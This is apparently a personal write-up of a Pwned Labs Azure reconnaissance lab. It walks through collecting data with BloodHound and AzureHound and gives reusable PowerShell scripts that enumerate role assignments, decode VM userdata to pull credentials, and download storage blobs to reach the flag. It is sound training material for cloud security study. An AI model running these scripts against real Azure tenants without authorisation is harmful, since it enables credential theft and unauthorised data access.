 ```yaml
---
layout: default
---
```

# Overview

This is a writeup for the [Intro to Azure Recon with BloodHound](https://pwnedlabs.io/labs/intro-to-azure-recon-with-bloodhound) lab at pwned labs

I worked through the walkthrough last week as I hadn't used bloodhound before, now I'm going to run through again while trying to write some re-usable scripts for future labs

# Lab

## Bloodhound

I'm using WSL2 kali linux, lets follow the setup guide for bloodhound [here](https://bloodhound.readthedocs.io/en/latest/installation/linux.html) and then run the neo4j console

![neo4j console](/images/azure-recon-neo4j.png)

Checking the azurehound docs [here](https://github.com/BloodHoundAD/AzureHound?tab=readme-ov-file#quickstart) we need to run 

```bash
azurehound list -u "$USERNAME" -p "$PASSWORD" -t "$TENANT" -o "mytenant.json"
```

We can get the tenant ID from a simple az login using the lab provided creds

![az login](/images/azure-recon-az-login.png)

Great, now we can run azurehound with our details

![azurehound](/images/azure-recon-azurehound.png)

Now we select upload data and provide our json output

![import](/images/azure-recon-upload.png)

Lets seach for the provided user to check the import was sucessful

![jose](/images/azure-recon-jose.png)

We can select the "Azure AD Admin Roles" section to view what roles our user has (I also changed the view because my eyes were burning)

![admin roles](/images/azure-recon-adminroles.png)

The script provided in the walkthrough for security attributes also works for larger environments, so lets look at role enumeration

## Role Enumeration

Lets write a generic script for enumerating permissions

```powershell
$session = Connect-AzAccount -UseDeviceAuthentication
$roles = Get-AzRoleAssignment -SignInName $session.Context.Account.Id -ExpandPrincipalGroups
$roles | Format-Table RoleDefinitionName, Scope, CanDelegate
```

![That was quick](/images/azure-recon-roles.png)

OK that works for a single sub, but lets future proof it by adding support for multiple subscriptions and tenants

```powershell
#Initialise list variables incase we only get one result
$scopes = @()
$tenants = @()
$roles = @()

#Authenticate to azure
$session = Connect-AzAccount -UseDeviceAuthentication

#Get all tenants for this user
$tenants += (Get-AzTenant).Id

#Add subscriptions
foreach($tenant in $tenants) {
    Set-AzContext -Tenant $tenant | Out-Null
    $scopes += (Get-AzSubscription -TenantId $tenant) | Select-Object Id, @{n="TenantId";e={$tenant}}
}

#Enumerate roles
foreach($scope in $scopes) {
    Set-AzContext -Tenant $scope.TenantId -Subscription $scope.Id | Out-Null
    $roles += Get-AzRoleAssignment -SignInName $session.Context.Account.Id -ExpandPrincipalGroups -IncludeClassicAdministrators
}

$roles | Format-Table RoleDefinitionName, Scope, CanDelegate
```

This was interestingly awkward, for some reason the Get-AzRoleAssignment cmdlet doesn't allow you to specify a scope and sign-in name when using expand principal groups

I got around this by just setting the context and appending the reults for each subscription, I'll keep this around for future Azure labs

## VM Userdata

The only role we have is for the VM, so lets write a script that would also work in a larger environment
Userdata is only returned when directly specifying an individual VM

```powershell
#Initialise list variables incase we only get one result
$scopes = @()
$tenants = @()
$roles = @()
$VMs = @()

#Authenticate to azure
$session = Connect-AzAccount -UseDeviceAuthentication

#Get all tenants for this user
$tenants += (Get-AzTenant).Id

#Add subscriptions
foreach($tenant in $tenants) {
    Set-AzContext -Tenant $tenant | Out-Null
    $scopes += (Get-AzSubscription -TenantId $tenant) | Select-Object Id, @{n="TenantId";e={$tenant}}
}

#Enumerate VMs
foreach($scope in $scopes) {
    Set-AzContext -Tenant $scope.TenantId -Subscription $scope.Id | Out-Null
    $VMList = Get-AzVM
    foreach($VM in $VMList) {
        $VMs += Get-AzVM -UserData -ResourceGroupName $VM.ResourceGroupName -Name $VM.Name | Select-Object *, @{n="UserDataString";e={[Text.Encoding]::Utf8.GetString([Convert]::FromBase64String($_.UserData))}}
    }
}

$VMs | Where-Object {$_.UserData -ne $null} | Format-List Name, UserDataString
```

![VM userdata](/images/azure-recon-userdata.png)

I ran this on my home tenant and was happy to see no sketchy userdata 🥳

## Storage Account Enumeration

Lets rerun our role enumeration script using the new creds we pulled from user data

![Security account roles](/images/azure-recon-security-roles.png)

We only have access to a storage account, lets write a script to enumerate the blobs and download a target

```powershell
#Get the storage account name to enumerate
$storageAccount = Read-Host -Prompt "Enter the storage account name"

#Authenticate to azure
$session = Connect-AzAccount -UseDeviceAuthentication

#Create a storage context
$storageContext = New-AzStorageContext -StorageAccountName $storageAccount -UseConnectedAccount

#Get available storage containers
$storageContainers = Get-AzStorageContainer -Context $storageContext

#Get available blobs from storage containers
$blobs = foreach($container in $storageContainers) {
    Get-AzStorageBlob -Container $container.Name -Context $storageContext
}
$blobs | Format-Table Name, ContentType, LastModified

#Retrieve blob content
$targetBlob = Read-Host -Prompt "Enter the blob name you want to view"
$targetBlobDetails = $blobs | Where-Object {$_.Name -eq $targetBlob}
If ($null -eq $targetBlobDetails) {
    Write-Error "Target blob was not found, please rerun and refer to output"
}
$blobDownload = Get-AzStorageBlobContent -Container $targetBlobDetails.BlobClient.BlobContainerName -Blob $targetBlob -Destination ".\" -Context $storageContext

#Output blob content
Get-Content -Path ".\$($blobDownload.Name)"
```

![Flag!](/images/azure-recon-flag.png)

Nice, we have the flag and I'm lazy so I will stop here

# Lessons Learnt

First lesson is that when doing a write-up, definitely give it a go blind first instead of starting the walkthrough and getting too engrossed... oops
